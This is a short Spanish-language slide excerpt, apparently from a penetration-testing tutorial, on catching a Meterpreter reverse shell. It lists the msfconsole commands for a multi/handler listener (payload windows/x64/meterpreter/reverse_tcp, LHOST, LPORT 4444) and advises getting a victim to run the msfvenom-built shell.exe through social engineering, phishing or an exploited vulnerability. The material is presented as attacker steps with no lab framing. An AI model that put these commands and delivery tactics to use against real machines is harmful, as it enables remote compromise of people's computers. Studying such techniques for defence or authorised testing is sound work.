

Configurar el Oyente (Listener): El atacante abre Metasploit y configura el multi/handler para escuchar la conexión entrante. Es esencial que los parámetros payload, LHOST y LPORT coincidan exactamente con los que se usaron en el comando msfvenom.
# Con metasploit

Comandos en msfconsole:
use exploit/multi/handler set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
 run o exploit
Ejecutar el Archivo en la Máquina Víctima: El atacante debe ingeniárselas para que el usuario de la máquina víctima ejecute el archivo shell.exe. Esto puede ser a través de ingeniería social, un ataque de phishing, o aprovechando alguna vulnerabilidad para subir y ejecutar el archivo.